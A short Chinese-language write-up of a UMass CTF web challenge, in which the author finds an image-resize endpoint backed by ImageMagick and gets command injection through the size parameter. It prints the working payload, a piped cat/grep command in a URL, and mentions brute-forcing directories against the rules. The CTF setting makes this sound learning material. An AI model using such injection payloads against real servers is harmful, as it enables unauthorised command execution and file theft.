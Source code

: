 感觉自己做的时间长后会学到很多trick

题目中的DIRBUSTER or any similar tools are NOT allowed. 被自己理解成了可以暴力扫目录、于是用dirsearch和御剑扫了一年、自己的英语水平太垃圾了

然后开始审计！

发现一个url 

```
http://spongebob-blog.ctf.umasscybersec.org/assets/image?name=house&size=300x494
```

然后size修改一下会报错

```
Server: SimpleHTTP/0.6 Python/3.10.14
Date: Fri, 26 Apr 2024 07:06:00 GMT
Connection: close
Content-Type: text/html;charset=utf-8
Content-Length: 566

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
        "http://www.w3.org/TR/html4/strict.dtd">
<html>
    <head>
        <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
        <title>Error response</title>
    </head>
    <body>
        <h1>Error response</h1>
        <p>Error code: 500</p>
        <p>Message: Error resizing image: convert-im6.q16: invalid argument for option `-resize': 300x=! @ error/convert.c/ConvertImageCommand/2563.
.</p>
        <p>Error code explanation: 500 - Server got itself in trouble.</p>
    </body>
</html>
```

然后预期中的命令执行是这样

```
convert bbb.png -resize 200×200! bbb.png
```

开始构造命令注入

然后构造exp

拿到命令执行后找了n年flag的位置

怎么不直接放在/flag

下次直接grep搜了

```
http://spongebob-blog.ctf.umasscybersec.org/assets/image?name=house&size= | cat $(grep -ri  'UMASS{.*}'  ../../..) 
```

然后即可获取flag

感觉命令行注入总是会藏在意想不到的位置